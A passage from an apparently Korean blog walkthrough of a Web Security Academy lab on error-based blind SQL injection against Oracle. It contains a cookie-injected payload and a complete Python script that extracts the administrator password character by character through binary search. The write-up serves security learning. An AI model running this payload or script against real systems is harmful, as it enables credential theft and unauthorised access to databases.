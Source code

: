 ```python
    else:
        print(f"Length of password is {len}")
        break
```

위의 코드를 실행하면 아래 이미지와 같이 패스워드의 길이가 20인 것을 알아낼 수 있다.

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/ff458b1e-95ca-40d3-ab54-7641d26509c4)

<br>

`bAKMSIzJgUpF1ga9' AND (SELECT CASE WHEN SUBSTR(password, 1, 1) < 'm' THEN 'a' ELSE to_char(1/0) END FROM users WHERE username='administrator')='a' --`

이제 Oracle의 `SUBSTR` 함수를 이용하여 패스워드를 하나씩 추출해보자. 이 때 divide-by-zero 에러를 발생 시키는 `to_char(1/0)`을 ELSE 문에 넣어 직관적으로 이해하도록 하였다. 이제 페이지가 에러를 발생시키면 조건문이 거짓이라는 것이고, 에러가 발생하지 않으면 조건문이 참이라는 것을 알게 된다. 이 페이로드를 이용하여 Python 코드를 작성하여 패스워드를 추출해보자.

<br>

```python
import requests

url = 'https://0aa900aa038314dd80f6443500f100a4.web-security-academy.net/'
password = ""

for i in range(20):
    low = 32
    high = 126

    while low+1 < high:
        mid = (low + high) // 2
        headers = {
            "session":"Oeq5rqh6iPiS4v7ax15lHB56gtL1ogwN",
            "Cookie": f"TrackingId=bAKMSIzJgUpF1ga9' AND (SELECT CASE WHEN SUBSTR(password, {i+1}, 1) < '{chr(mid)}' THEN 'a' ELSE to_char(1/0) END FROM users WHERE username='administrator')='a' --"
        }
        response = requests.get(url, headers=headers)

        if "Internal Server Error" in response.text:
            low = mid
        else:
            high = mid

    password += chr(low)
    print(f"[{i+1}]Temp Password: {password}")

print(f"Password: {password}")
```

위처럼 코드를 작성할 수 있다. Internal Server Error가 발생하는지에 따른 조건문을 신경써야 한다.

<br>

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/53c2a9d4-c2c4-41e5-8937-856af26f079c)
